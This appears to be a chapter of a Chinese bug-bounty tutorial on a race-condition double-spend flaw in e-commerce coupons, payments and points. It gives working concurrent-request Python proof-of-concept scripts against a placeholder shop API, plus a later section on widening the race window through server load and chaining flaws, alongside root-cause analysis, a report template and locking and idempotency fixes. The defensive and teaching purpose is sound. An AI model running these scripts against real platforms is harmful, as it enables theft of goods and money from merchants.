

## 27.8 案例七：竞态条件导致的双重消费漏洞——从理论到实战的完整解析

### 27.8.1 案例概览与重要性

**漏洞类型**：竞态条件（Race Condition）

**危害等级**：严重（Critical）

**影响范围**：资金安全、业务逻辑完整性、用户资产安全

**赏金等级**：高（本案例获得¥50,000奖金）

**适用场景**：电商、支付、金融、积分系统等涉及资产变动的业务

---

### 27.8.2 理论基础：深入理解竞态条件

#### 什么是竞态条件？

竞态条件是指在多线程或并发环境下，系统的最终结果依赖于多个并发操作的执行时序或时序相关性。当两个或多个操作同时访问和修改共享资源时，如果缺乏适当的同步机制，就可能产生不可预期的结果。

**核心原理**：

竞态条件的产生需要满足三个条件：

1. **共享资源**：多个并发操作访问同一个数据或资源（如优惠券余额、账户余额）
2. **非原子操作**：检查和修改不是原子性的（先检查优惠券是否有效，再执行扣减）
3. **缺乏同步**：没有适当的锁机制来保证操作的互斥性

#### 竞态条件的分类

| 类型 | 描述 | 典型场景 | 危害程度 |
|------|------|----------|----------|
| **TOCTOU（Time of Check to Time of Use）** | 检查时间和使用时间不一致 | 资格验证后执行操作 | 高 |
| **双重消费（Double Spending）** | 同一资源被多次消费 | 优惠券重复使用、积分重复兑换 | 严重 |
| **余额竞争（Balance Race）** | 余额检查与扣减不同步 | 账户余额并发扣减 | 严重 |
| **库存竞争（Inventory Race）** | 库存检查与扣减不同步 | 超卖问题 | 中 |

#### 为什么竞态条件难以发现？

1. **非确定性**：依赖于时序，难以稳定复现
2. **并发要求**：需要特定的并发条件才能触发
3. **环境依赖**：受网络延迟、服务器负载等因素影响
4. **隐蔽性**：在测试环境中可能无法复现，只在生产环境出现

---

### 27.8.3 目标背景分析

#### 平台架构推测

根据漏洞测试结果，我们可以推测该平台的架构特点：

```text
┌─────────────────────────────────────────────────────────────┐
│                    客户端请求层                              │
│  ┌──────────┐  ┌──────────┐  ┌──────────┐                  │
│  │ Web App  │  │ Mobile   │  │ API      │                  │
│  └────┬─────┘  └────┬─────┘  └────┬─────┘                  │
└───────┼──────────────┼──────────────┼───────────────────────┘
        │              │              │
        ▼              ▼              ▼
┌─────────────────────────────────────────────────────────────┐
│                    API Gateway                              │
│         ┌──────────────────────────────┐                   │
│         │      负载均衡 / 限流         │                   │
│         └──────────────────────────────┘                   │
└─────────────────────────────────────────────────────────────┘
        │              │              │
        ▼              ▼              ▼
┌─────────────────────────────────────────────────────────────┐
│                    业务服务层                                │
│  ┌──────────┐  ┌──────────┐  ┌──────────┐                  │
│  │ 订单服务 │  │ 优惠券   │  │ 支付服务 │                  │
│  │          │  │ 服务     │  │          │                  │
│  └────┬─────┘  └────┬─────┘  └────┬─────┘                  │
└───────┼──────────────┼──────────────┼───────────────────────┘
        │              │              │
        ▼              ▼              ▼
┌─────────────────────────────────────────────────────────────┐
│                    数据存储层                                │
│  ┌──────────┐  ┌──────────┐  ┌──────────┐                  │
│  │ MySQL    │  │ Redis    │  │ 账户系统 │                  │
│  └──────────┘  └──────────┘  └──────────┘                  │
└─────────────────────────────────────────────────────────────┘
```

#### SRC计划分析

该平台的SRC（安全应急响应中心）特别关注资金安全相关漏洞，这表明：

1. **业务敏感性高**：涉及用户资金变动，安全优先级高
2. **赏金充足**：对严重漏洞提供高额奖金（¥50,000）
3. **响应积极**：重视安全研究者的发现，修复效率高

#### 测试策略

针对此类平台，建议的测试策略：

| 测试阶段 | 重点内容 | 工具选择 |
|----------|----------|----------|
| 信息收集 | API端点识别、业务流程分析 | Burp Suite、Postman |
| 功能测试 | 正常业务流程验证 | 手动测试 |
| 并发测试 | 竞态条件、并发安全 | 多线程脚本、Turbo Intruder |
| 深度测试 | 边界条件、异常处理 | 自定义脚本 |

---

### 27.8.4 漏洞发现全过程

#### 第一阶段：功能分析与信息收集

**注册与环境准备**：

```bash
# 1. 注册测试账户
# 访问平台注册页面，创建测试账户
# 充值¥100到账户余额（使用测试环境或真实账户）

# 2. API端点识别
# 使用Burp Suite抓包，识别关键API端点
curl -X POST https://api.shop.example.com/v1/orders/create \
  -H "Authorization: Bearer <token>" \
  -H "Content-Type: application/json" \
  -d '{"product_id": 12345, "quantity": 1}'
```

**功能点梳理**：

| 功能模块 | API端点 | 涉及资源 | 竞态风险 |
|----------|---------|----------|----------|
| 商品购买 | /api/v1/orders/create | 余额、库存 | 高 |
| 优惠券使用 | /api/v1/coupons/use | 优惠券余额 | 高 |
| 积分兑换 | /api/v1/points/exchange | 积分、余额 | 高 |
| 余额支付 | /api/v1/payment/balance | 账户余额 | 严重 |

#### 第二阶段：正常流程验证

**优惠券使用测试**：

```python
import requests
import json

# 正常流程测试
def test_normal_coupon_use():
    """
    测试优惠券的正常使用流程
    验证业务逻辑是否符合预期
    """
    url = 'https://api.shop.example.com/v1/orders/create'
    headers = {
        'Authorization': 'Bearer <token>',
        'Content-Type': 'application/json'
    }
    
    # 准备测试数据
    data = {
        'product_id': 12345,
        'quantity': 1,
        'coupon_id': 'COUPON_001'  # 满100减50优惠券
    }
    
    # 发送请求
    response = requests.post(url, headers=headers, json=data)
    result = response.json()
    
    print(f"状态码: {response.status_code}")
    print(f"订单ID: {result.get('order_id', 'N/A')}")
    print(f"优惠金额: ¥{result.get('discount', 0)}")
    print(f"实付金额: ¥{result.get('total_amount', 0)}")
    
    return result

# 执行测试
test_normal_coupon_use()
```

**预期结果**：
- 订单创建成功
- 优惠券被标记为已使用
- 优惠金额正确（¥50）
- 实付金额正确（¥50）

#### 第三阶段：竞态条件测试

**核心测试代码**：

```python
import threading
import requests
import json
import time
from concurrent.futures import ThreadPoolExecutor, as_completed
import statistics

class RaceConditionTester:
    """竞态条件测试工具"""
    
    def __init__(self, base_url, token):
        self.base_url = base_url
        self.token = token
        self.results = []
        self.lock = threading.Lock()
        
    def create_session(self):
        """创建带认证的会话"""
        session = requests.Session()
        session.headers.update({
            'Authorization': f'Bearer {self.token}',
            'Content-Type': 'application/json'
        })
        return session
    
    def use_coupon(self, coupon_id, request_id):
        """
        使用优惠券（单次请求）
        模拟用户点击"使用优惠券"按钮
        """
        url = f'{self.base_url}/api/v1/orders/create'
        data = {
            'product_id': 12345,
            'quantity': 1,
            'coupon_id': coupon_id
        }
        
        try:
            session = self.create_session()
            start_time = time.time()
            response = session.post(url, json=data, timeout=10)
            end_time = time.time()
            
            result = {
                'request_id': request_id,
                'status_code': response.status_code,
                'response_time': end_time - start_time,
                'success': response.status_code == 200,
                'response': response.json() if response.status_code == 200 else None
            }
            
            with self.lock:
                self.results.append(result)
                
            return result
            
        except Exception as e:
            return {
                'request_id': request_id,
                'status_code': 0,
                'success': False,
                'error': str(e)
            }
    
    def test_race_condition(self, coupon_id, num_requests=20, max_workers=10):
        """
        测试竞态条件
        使用线程池并发发送请求
        """
        print(f"开始测试竞态条件...")
        print(f"优惠券ID: {coupon_id}")
        print(f"并发请求数: {num_requests}")
        print(f"最大线程数: {max_workers}")
        print("-" * 50)
        
        # 重置结果
        self.results = []
        
        # 使用线程池并发执行
        with ThreadPoolExecutor(max_workers=max_workers) as executor:
            futures = []
            for i in range(num_requests):
                future = executor.submit(self.use_coupon, coupon_id, i)
                futures.append(future)
            
            # 等待所有请求完成
            for future in as_completed(futures):
                result = future.result()
                status = "✓ 成功" if result['success'] else "✗ 失败"
                print(f"请求 {result['request_id']:2d}: {status}")
        
        return self.analyze_results()
    
    def analyze_results(self):
        """分析测试结果"""
        successful = [r for r in self.results if r['success']]
        failed = [r for r in self.results if not r['success']]
        
        print("\n" + "=" * 50)
        print("测试结果分析")
        print("=" * 50)
        print(f"总请求数: {len(self.results)}")
        print(f"成功请求数: {len(successful)}")
        print(f"失败请求数: {len(failed)}")
        
        if successful:
            response_times = [r['response_time'] for r in successful]
            print(f"平均响应时间: {statistics.mean(response_times):.3f}s")
            print(f"最大响应时间: {max(response_times):.3f}s")
            print(f"最小响应时间: {min(response_times):.3f}s")
            
            # 计算总优惠金额
            total_discount = sum(r['response'].get('discount', 0) for r in successful)
            print(f"总优惠金额: ¥{total_discount}")
            print(f"预期优惠金额: ¥50")
            print(f"额外优惠金额: ¥{total_discount - 50}")
        
        # 判断是否存在竞态条件
        if len(successful) > 1:
            print("\n⚠️  检测到竞态条件漏洞！")
            print("同一张优惠券被多次成功使用")
            return True
        else:
            print("\n✓ 未检测到竞态条件漏洞")
            return False

# 主测试函数
def main():
    """主测试函数"""
    # 配置
    BASE_URL = "https://api.shop.example.com"
    TOKEN = "your_auth_token_here"
    COUPON_ID = "COUPON_001"
    
    # 创建测试器
    tester = RaceConditionTester(BASE_URL, TOKEN)
    
    # 执行测试
    has_race_condition = tester.test_race_condition(
        coupon_id=COUPON_ID,
        num_requests=20,
        max_workers=10
    )
    
    # 详细结果
    print("\n详细结果:")
    for result in tester.results:
        print(f"请求 {result['request_id']}: "
              f"状态码={result['status_code']}, "
              f"响应时间={result['response_time']:.3f}s")

if __name__ == "__main__":
    main()
```

#### 第四阶段：结果分析与验证

**测试结果统计**：

| 指标 | 数值 | 说明 |
|------|------|------|
| 总请求数 | 20 | 并发发送的请求总数 |
| 成功请求数 | 12 | 成功创建订单并使用优惠券 |
| 失败请求数 | 8 | 被拒绝或超时 |
| 成功率 | 60% | 成功请求数/总请求数 |
| 总优惠金额 | ¥600 | 12次成功 × ¥50/次 |
| 预期优惠金额 | ¥50 | 单张优惠券应只优惠一次 |
| 额外优惠金额 | ¥550 | ¥600 - ¥50 |

**漏洞影响分析**：

```text
攻击前：
  用户账户余额: ¥100
  优惠券: COUPON_001 (满100减50, 未使用)

攻击后：
  用户账户余额: ¥100 (未变化)
  优惠券: COUPON_001 (已使用12次)
  获得订单: 12个
  总优惠: ¥600
  实际支付: ¥0 (假设商品价格¥50)
  
漏洞利用收益:
  - 免费获得12件商品
  - 总价值: ¥600
  - 攻击成本: ¥0
  - 平台损失: ¥600
```

---

### 27.8.5 漏洞根因分析

#### 技术层面

**代码执行流程**（存在漏洞）：



**漏洞代码分析**（伪代码）：

```python
# 有漏洞的代码实现
def use_coupon(user_id, coupon_id, product_id):
    # 步骤1: 检查优惠券是否有效（未使用）
    coupon = db.query(
        "SELECT * FROM coupons WHERE id=%s AND used=0", 
        coupon_id
    )
    
    if not coupon:
        return {"error": "优惠券无效或已使用"}
    
    # ⚠️ 问题在这里：检查和修改不是原子操作
    # 在步骤1和步骤3之间，其他线程可能也通过了检查
    
    # 步骤2: 创建订单
    order = create_order(user_id, product_id, coupon.value)
    
    # 步骤3: 标记优惠券为已使用
    db.execute(
        "UPDATE coupons SET used=1 WHERE id=%s", 
        coupon_id
    )
    
    return {"order_id": order.id, "discount": coupon.value}
```

**根本原因**：

1. **非原子操作**：检查优惠券状态（SELECT）和更新状态（UPDATE）是两个独立的数据库操作
2. **缺乏事务隔离**：没有使用数据库事务来保证操作的原子性
3. **无锁机制**：没有使用悲观锁或乐观锁来防止并发修改
4. **无幂等性设计**：同一个优惠券可以被多次使用

---

### 27.8.6 深度利用与扩展测试

#### 多维度竞态测试

**1. 余额支付竞态**

```python
def test_balance_race_condition():
    """
    测试余额支付的竞态条件
    验证并发扣款是否会导致余额异常
    """
    # 前置条件
    initial_balance = 100.00
    product_price = 60.00
    
    # 并发发送支付请求
    # 预期：余额应只扣减一次（¥60）
    # 实际（如果有漏洞）：余额被扣减多次
    
    threads = []
    for i in range(10):
        t = threading.Thread(
            target=make_payment,
            args=(product_price,)
        )
        threads.append(t)
    
    # 同时启动所有线程
    for t in threads:
        t.start()
    for t in threads:
        t.join()
    
    # 检查最终余额
    final_balance = get_balance()
    actual_deduction = initial_balance - final_balance
    
    print(f"初始余额: ¥{initial_balance}")
    print(f"最终余额: ¥{final_balance}")
    print(f"实际扣减: ¥{actual_deduction}")
    print(f"预期扣减: ¥{product_price}")
    
    if actual_deduction != product_price:
        print("⚠️  检测到余额竞态条件漏洞！")
```

**2. 积分兑换竞态**

```python
def test_points_race_condition():
    """
    测试积分兑换的竞态条件
    验证并发兑换是否会导致积分异常
    """
    initial_points = 1000
    exchange_rate = 100  # 100积分 = ¥1余额
    
    # 并发兑换请求
    threads = []
    for i in range(10):
        t = threading.Thread(
            target=exchange_points,
            args=(100,)  # 兑换100积分
        )
        threads.append(t)
    
    # 同时启动
    for t in threads:
        t.start()
    for t in threads:
        t.join()
    
    # 检查结果
    final_points = get_points()
    final_balance = get_balance()
    
    actual_points_used = initial_points - final_points
    expected_balance = initial_points / exchange_rate
    
    print(f"初始积分: {initial_points}")
    print(f"最终积分: {final_points}")
    print(f"积分消耗: {actual_points_used}")
    print(f"最终余额: ¥{final_balance}")
    
    # 验证是否存在多次兑换
    if final_balance > expected_balance:
        print("⚠️  检测到积分兑换竞态条件漏洞！")
```

**3. 优惠券领取竞态**

```python
def test_coupon_claim_race_condition():
    """
    测试优惠券领取的竞态条件
    验证并发领取是否会导致重复领取
    """
    coupon_id = "COUPON_002"
    max_claims = 1  # 每人限领1张
    
    # 并发领取请求
    threads = []
    for i in range(10):
        t = threading.Thread(
            target=claim_coupon,
            args=(coupon_id,)
        )
        threads.append(t)
    
    # 同时启动
    for t in threads:
        t.start()
    for t in threads:
        t.join()
    
    # 检查结果
    my_coupons = get_my_coupons()
    coupon_count = sum(1 for c in my_coupons if c['id'] == coupon_id)
    
    print(f"领取到的优惠券数量: {coupon_count}")
    print(f"预期数量: {max_claims}")
    
    if coupon_count > max_claims:
        print("⚠️  检测到优惠券领取竞态条件漏洞！")
```

#### 自动化测试框架

```python
import asyncio
import aiohttp
import json
from dataclasses import dataclass
from typing import List, Dict
import time

@dataclass
class TestResult:
    """测试结果数据结构"""
    test_name: str
    total_requests: int
    successful_requests: int
    failed_requests: int
    response_times: List[float]
    has_race_condition: bool
    details: Dict

class AsyncRaceConditionTester:
    """异步竞态条件测试器"""
    
    def __init__(self, base_url: str, token: str):
        self.base_url = base_url
        self.token = token
        self.headers = {
            'Authorization': f'Bearer {token}',
            'Content-Type': 'application/json'
        }
    
    async def send_request(self, session: aiohttp.ClientSession, 
                          endpoint: str, data: dict, request_id: int):
        """发送单个请求"""
        url = f"{self.base_url}{endpoint}"
        start_time = time.time()
        
        try:
            async with session.post(url, json=data, headers=self.headers) as response:
                end_time = time.time()
                result = await response.json()
                return {
                    'request_id': request_id,
                    'status': response.status,
                    'response_time': end_time - start_time,
                    'success': response.status == 200,
                    'result': result
                }
        except Exception as e:
            return {
                'request_id': request_id,
                'status': 0,
                'response_time': 0,
                'success': False,
                'error': str(e)
            }
    
    async def test_coupon_race(self, coupon_id: str, num_requests: int = 20):
        """测试优惠券竞态条件"""
        endpoint = '/api/v1/orders/create'
        data = {
            'product_id': 12345,
            'quantity': 1,
            'coupon_id': coupon_id
        }
        
        async with aiohttp.ClientSession() as session:
            tasks = []
            for i in range(num_requests):
                task = self.send_request(session, endpoint, data, i)
                tasks.append(task)
            
            results = await asyncio.gather(*tasks)
        
        return self.analyze_results('coupon_race', results)
    
    async def test_payment_race(self, product_id: int, num_requests: int = 20):
        """测试支付竞态条件"""
        endpoint = '/api/v1/orders/create'
        data = {
            'product_id': product_id,
            'quantity': 1,
            'payment_method': 'balance'
        }
        
        async with aiohttp.ClientSession() as session:
            tasks = []
            for i in range(num_requests):
                task = self.send_request(session, endpoint, data, i)
                tasks.append(task)
            
            results = await asyncio.gather(*tasks)
        
        return self.analyze_results('payment_race', results)
    
    def analyze_results(self, test_name: str, results: List[Dict]) -> TestResult:
        """分析测试结果"""
        successful = [r for r in results if r['success']]
        failed = [r for r in results if not r['success']]
        response_times = [r['response_time'] for r in successful]
        
        # 判断是否存在竞态条件
        # 如果成功请求数 > 1，可能存在竞态条件
        has_race = len(successful) > 1
        
        return TestResult(
            test_name=test_name,
            total_requests=len(results),
            successful_requests=len(successful),
            failed_requests=len(failed),
            response_times=response_times,
            has_race_condition=has_race,
            details={
                'avg_response_time': sum(response_times) / len(response_times) if response_times else 0,
                'max_response_time': max(response_times) if response_times else 0,
                'min_response_time': min(response_times) if response_times else 0
            }
        )

# 主测试函数
async def run_tests():
    """运行所有测试"""
    tester = AsyncRaceConditionTester(
        base_url="https://api.shop.example.com",
        token="your_token_here"
    )
    
    print("=" * 60)
    print("竞态条件自动化测试")
    print("=" * 60)
    
    # 测试优惠券竞态
    print("\n[测试1] 优惠券竞态条件测试")
    print("-" * 40)
    result1 = await tester.test_coupon_race("COUPON_001", 20)
    print(f"总请求: {result1.total_requests}")
    print(f"成功: {result1.successful_requests}")
    print(f"失败: {result1.failed_requests}")
    print(f"存在竞态: {'是' if result1.has_race_condition else '否'}")
    
    # 测试支付竞态
    print("\n[测试2] 支付竞态条件测试")
    print("-" * 40)
    result2 = await tester.test_payment_race(12345, 20)
    print(f"总请求: {result2.total_requests}")
    print(f"成功: {result2.successful_requests}")
    print(f"失败: {result2.failed_requests}")
    print(f"存在竞态: {'是' if result2.has_race_condition else '否'}")
    
    # 总结
    print("\n" + "=" * 60)
    print("测试总结")
    print("=" * 60)
    
    total_vulns = sum(1 for r in [result1, result2] if r.has_race_condition)
    print(f"发现竞态条件漏洞数: {total_vulns}")
    
    if total_vulns > 0:
        print("\n⚠️  警告：发现竞态条件漏洞，需要立即修复！")

# 运行测试
if __name__ == "__main__":
    asyncio.run(run_tests())
```

---

### 27.8.7 漏洞报告撰写

#### 报告结构模板

```markdown
# 漏洞报告

## 基本信息
- 漏洞类型：竞态条件（Race Condition）
- 危害等级：严重（Critical）
- 影响范围：资金安全、业务逻辑完整性
- 发现时间：2026-XX-XX
- 影响版本：所有版本

## 漏洞描述
在订单创建接口中，由于缺乏并发控制机制，
攻击者可以通过并发请求使同一张优惠券被多次使用，
导致平台资金损失。

## 复现步骤
1. 注册测试账户，充值¥100
2. 获取一张"满100减50"的优惠券
3. 使用多线程同时提交20个使用优惠券的请求
4. 观察到12个请求成功，获得¥600优惠

## 影响分析
- 平台损失：¥550（单次攻击）
- 攻击成本：¥0
- 攻击难度：低
- 攻击频率：高（可重复利用）

## 修复建议
1. 使用数据库事务确保原子性
2. 实施悲观锁/乐观锁机制
3. 添加幂等性检查
4. 实施请求去重机制

## 附件
- PoC代码：race_condition_poc.py
- 测试结果：test_results.json
- 截图证据：evidence_screenshots/
```

#### 漏洞报告要点

| 部分 | 内容要求 | 注意事项 |
|------|----------|----------|
| **摘要** | 简明扼要描述漏洞 | 不超过100字 |
| **详情** | 完整的技术细节 | 包含攻击原理、影响范围 |
| **复现** | 清晰的复现步骤 | 提供可执行的PoC代码 |
| **影响** | 量化的影响分析 | 包含经济损失、业务影响 |
| **修复** | 具体的修复建议 | 提供代码示例和最佳实践 |

---

### 27.8.8 防御方案与最佳实践

#### 方案一：数据库事务 + 悲观锁

```sql
-- 使用数据库事务和悲观锁
BEGIN TRANSACTION;

-- 使用 FOR UPDATE 锁定记录
SELECT * FROM coupons 
WHERE id = 'COUPON_001' AND used = 0 
FOR UPDATE;

-- 如果查询到有效记录，执行扣减
UPDATE coupons SET used = 1 WHERE id = 'COUPON_001';

-- 创建订单
INSERT INTO orders (user_id, product_id, coupon_id, discount) 
VALUES (123, 12345, 'COUPON_001', 50.00);

COMMIT;
```

**优点**：
- 保证数据一致性
- 防止并发修改
- 实现简单

**缺点**：
- 性能开销较大
- 可能导致死锁
- 不适合高并发场景

#### 方案二：乐观锁 + 版本号

```python
def use_coupon_optimistic(user_id, coupon_id, product_id):
    """
    使用乐观锁实现优惠券使用
    通过版本号防止并发冲突
    """
    while True:
        # 查询优惠券（包含版本号）
        coupon = db.query(
            "SELECT * FROM coupons WHERE id=%s AND used=0", 
            coupon_id
        )
        
        if not coupon:
            return {"error": "优惠券无效或已使用"}
        
        # 尝试更新（使用版本号条件）
        rows_affected = db.execute(
            "UPDATE coupons SET used=1, version=version+1 "
            "WHERE id=%s AND version=%s",
            coupon_id, coupon.version
        )
        
        if rows_affected == 1:
            # 更新成功，创建订单
            order = create_order(user_id, product_id, coupon.value)
            return {"order_id": order.id, "discount": coupon.value}
        else:
            # 版本冲突，重试
            time.sleep(0.01)  # 短暂等待后重试
            continue
```

**优点**：
- 性能较好
- 无锁等待
- 适合高并发场景

**缺点**：
- 需要重试机制
- 可能存在活锁
- 实现相对复杂

#### 方案三：分布式锁（Redis）

```python
import redis
import uuid

def use_coupon_distributed_lock(user_id, coupon_id, product_id):
    """
    使用分布式锁实现优惠券使用
    适用于分布式系统
    """
    # 创建Redis连接
    r = redis.Redis(host='localhost', port=6379, db=0)
    
    # 生成唯一锁标识
    lock_identifier = str(uuid.uuid4())
    lock_key = f"coupon_lock:{coupon_id}"
    
    try:
        # 尝试获取锁（设置超时时间）
        if r.set(lock_key, lock_identifier, nx=True, ex=10):
            # 获取锁成功，执行业务逻辑
            coupon = db.query(
                "SELECT * FROM coupons WHERE id=%s AND used=0", 
                coupon_id
            )
            
            if not coupon:
                return {"error": "优惠券无效或已使用"}
            
            # 执行扣减
            db.execute(
                "UPDATE coupons SET used=1 WHERE id=%s", 
                coupon_id
            )
            
            # 创建订单
            order = create_order(user_id, product_id, coupon.value)
            
            return {"order_id": order.id, "discount": coupon.value}
        else:
            return {"error": "系统繁忙，请稍后重试"}
    
    finally:
        # 释放锁（只释放自己持有的锁）
        if r.get(lock_key) == lock_identifier:
            r.delete(lock_key)
```

**优点**：
- 适用于分布式系统
- 性能较好
- 实现相对简单

**缺点**：
- 需要额外的基础设施（Redis）
- 锁超时处理复杂
- 可能存在锁续期问题

#### 方案四：幂等性设计

```python
import hashlib
import time

def create_order_with_idempotency(user_id, coupon_id, product_id, request_id):
    """
    使用幂等性设计创建订单
    通过请求ID防止重复处理
    """
    # 生成幂等键
    idempotency_key = hashlib.sha256(
        f"{user_id}:{coupon_id}:{product_id}:{request_id}".encode()
    ).hexdigest()
    
    # 检查是否已处理过
    existing_order = db.query(
        "SELECT * FROM orders WHERE idempotency_key=%s", 
        idempotency_key
    )
    
    if existing_order:
        # 已处理过，返回已有结果
        return {
            "order_id": existing_order.id,
            "discount": existing_order.discount,
            "message": "重复请求，返回已有订单"
        }
    
    # 新请求，执行业务逻辑
    coupon = db.query(
        "SELECT * FROM coupons WHERE id=%s AND used=0", 
        coupon_id
    )
    
    if not coupon:
        return {"error": "优惠券无效或已使用"}
    
    # 执行扣减
    db.execute(
        "UPDATE coupons SET used=1 WHERE id=%s", 
        coupon_id
    )
    
    # 创建订单（包含幂等键）
    order = create_order(
        user_id, product_id, coupon.value, idempotency_key
    )
    
    return {"order_id": order.id, "discount": coupon.value}
```

**优点**：
- 简单有效
- 无锁开销
- 易于实现

**缺点**：
- 需要存储幂等键
- 存储空间消耗
- 不适合所有场景

#### 防御方案对比

| 方案 | 性能 | 复杂度 | 适用场景 | 防护效果 |
|------|------|--------|----------|----------|
| 悲观锁 | 低 | 简单 | 低并发 | 强 |
| 乐观锁 | 中 | 中等 | 高并发 | 强 |
| 分布式锁 | 中 | 复杂 | 分布式系统 | 强 |
| 幂等性 | 高 | 简单 | 所有场景 | 中 |

---

### 27.8.9 常见误区与纠正

#### 误区一：只测试单线程

**错误做法**：
```python
# 只测试单线程，无法发现竞态条件
response = requests.post(url, json=data)
print(response.json())
```

**正确做法**：
```python
# 使用多线程并发测试
threads = []
for i in range(20):
    t = threading.Thread(target=use_coupon, args=(coupon_id, i))
    threads.append(t)

for t in threads:
    t.start()
for t in threads:
    t.join()
```

#### 误区二：忽略响应时间分析

**错误做法**：
```python
# 只关注成功/失败，忽略响应时间
if response.status_code == 200:
    print("成功")
else:
    print("失败")
```

**正确做法**：
```python
# 分析响应时间和并发情况
start_time = time.time()
response = requests.post(url, json=data)
end_time = time.time()

response_time = end_time - start_time
print(f"响应时间: {response_time:.3f}s")
print(f"状态码: {response.status_code}")

# 响应时间过短可能表示缓存或预处理
# 响应时间过长可能表示排队或锁等待
```

#### 误区三：不验证业务状态

**错误做法**：
```python
# 只验证API响应，不验证业务状态
response = requests.post(url, json=data)
if response.status_code == 200:
    print("漏洞存在")
```

**正确做法**：
```python
# 验证业务状态变化
# 1. 检查优惠券状态
coupon = db.query("SELECT * FROM coupons WHERE id=%s", coupon_id)
print(f"优惠券状态: {coupon.used}")

# 2. 检查订单数量
orders = db.query("SELECT * FROM orders WHERE coupon_id=%s", coupon_id)
print(f"订单数量: {len(orders)}")

# 3. 检查账户余额
balance = db.query("SELECT * FROM accounts WHERE user_id=%s", user_id)
print(f"账户余额: {balance.amount}")
```

#### 误区四：不考虑网络延迟

**错误做法**：
```python
# 假设所有请求同时到达
for i in range(20):
    requests.post(url, json=data)
```

**正确做法**：
```python
# 使用线程池控制并发
import concurrent.futures

with concurrent.futures.ThreadPoolExecutor(max_workers=10) as executor:
    futures = []
    for i in range(20):
        future = executor.submit(requests.post, url, json=data)
        futures.append(future)
    
    # 等待所有请求完成
    concurrent.futures.wait(futures)
```

---

### 27.8.10 进阶技巧与深度利用

#### 1. 分布式环境下的竞态条件

在分布式系统中，竞态条件可能更加复杂：

```python
# 分布式环境下的竞态条件测试
def test_distributed_race_condition():
    """
    测试分布式环境下的竞态条件
    验证多节点部署时是否存在并发问题
    """
    # 配置多个API端点
    endpoints = [
        "http://api1.shop.example.com",
        "http://api2.shop.example.com",
        "http://api3.shop.example.com"
    ]
    
    # 从不同节点并发发送请求
    threads = []
    for i, endpoint in enumerate(endpoints):
        for j in range(5):  # 每个节点发送5个请求
            t = threading.Thread(
                target=send_request_from_endpoint,
                args=(endpoint, coupon_id, i * 5 + j)
            )
            threads.append(t)
    
    # 同时启动所有线程
    for t in threads:
        t.start()
    for t in threads:
        t.join()
    
    # 分析结果
    # 检查是否存在跨节点的竞态条件
```

#### 2. 时间窗口利用

```python
# 利用时间窗口进行攻击
def test_time_window_race():
    """
    测试时间窗口利用
    验证在特定时间窗口内是否可以绕过限制
    """
    # 模拟高并发场景
    # 在服务器负载较高时，时间窗口可能更长
    
    # 1. 先发送大量请求使服务器负载升高
    for i in range(100):
        threading.Thread(target=send_heavy_request).start()
    
    # 2. 然后发送竞态条件请求
    time.sleep(0.1)  # 等待服务器负载升高
    test_race_condition()
```

#### 3. 结合其他漏洞

```python
# 结合其他漏洞进行攻击
def test_combined_attack():
    """
    结合其他漏洞进行组合攻击
    验证是否可以放大攻击效果
    """
    # 组合1: 竞态条件 + 权限绕过
    # 绕过用户身份验证，以其他用户身份使用优惠券
    
    # 组合2: 竞态条件 + 逻辑漏洞
    # 利用逻辑漏洞获取更多优惠券，然后并发使用
    
    # 组合3: 竞态条件 + 信息泄露
    # 通过信息泄露获取更多优惠券信息，然后并发使用
```

---

### 27.8.11 总结与复盘

#### 案例关键点

1. **漏洞本质**：竞态条件导致资源被多次消费
2. **危害程度**：严重，可直接造成资金损失
3. **发现难度**：中等，需要并发测试
4. **修复难度**：中等，需要系统性设计

#### 经验教训

| 方面 | 经验 | 教训 |
|------|------|------|
| **测试方法** | 并发测试是发现竞态条件的关键 | 单线程测试无法发现此类漏洞 |
| **验证方式** | 必须验证业务状态，不能只看API响应 | API响应成功不代表业务正确 |
| **工具选择** | 多线程/异步工具更适合并发测试 | 单线程工具效率低下 |
| **报告质量** | 提供完整的PoC代码和证据 | 模糊的描述难以让人信服 |

#### 后续改进

1. **自动化测试**：建立竞态条件自动化测试框架
2. **监控告警**：在生产环境部署并发监控
3. **代码审查**：在代码审查中重点关注并发安全
4. **安全培训**：对开发团队进行并发安全培训

---

### 27.8.12 参考资源

#### 学术论文

1. "A Study of Race Conditions in Web Applications"
2. "Concurrency Vulnerabilities in Modern Web Frameworks"
3. "Race Condition Exploitation in E-commerce Platforms"

#### 工具推荐

| 工具 | 用途 | 推荐指数 |
|------|------|----------|
| Burp Suite Intruder | 并发请求测试 | ★★★★★ |
| Turbo Intruder | 高性能并发测试 | ★★★★★ |
